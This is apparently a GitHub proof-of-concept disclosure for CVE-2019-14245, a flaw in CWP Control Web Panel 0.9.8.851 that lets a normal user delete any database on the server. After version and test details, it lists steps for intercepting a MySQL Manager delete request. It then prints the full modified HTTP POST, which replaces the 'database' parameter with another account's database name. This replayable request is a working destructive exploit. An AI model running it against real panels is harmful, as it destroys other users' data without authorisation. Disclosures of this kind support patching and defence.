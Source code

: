 # Information
```
Product             : CWP Control Web Panel
Vulnerability Name  : Arbitrary database dropping
version             : 0.9.8.851
Retest on            : 0.9.8.866
Test on             : CentOS 7.6.1810 (Core)
Reference           : http://centos-webpanel.com/
                    : https://control-webpanel.com/changelog
CVE-Number          : CVE-2019-14245
```

<br>

# PoC

1. Log in as a normal user.
2. Go to "MySQL Manager"
3. Try to delete any database from the account
4. Intercept the request, and modify parameter "database" to target database name such as "oauthv2"

```
POST /cwp_226727d95b77d953/alice/alice/index.php?module=mysql_manager&acc=deletedatabase HTTP/1.1
Host: 192.168.80.148:2083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrftoken: 9a1f7869d43544fc9f509cb6ac7bf430
X-Requested-With: XMLHttpRequest
Content-Length: 20
Connection: close
Referer: https://192.168.80.148:2083/cwp_226727d95b77d953/alice/?module=mysql_manager
Cookie: PHPSESSID=i2is5am08ru7a2h93e13llp9e2

database=oauthv2
```
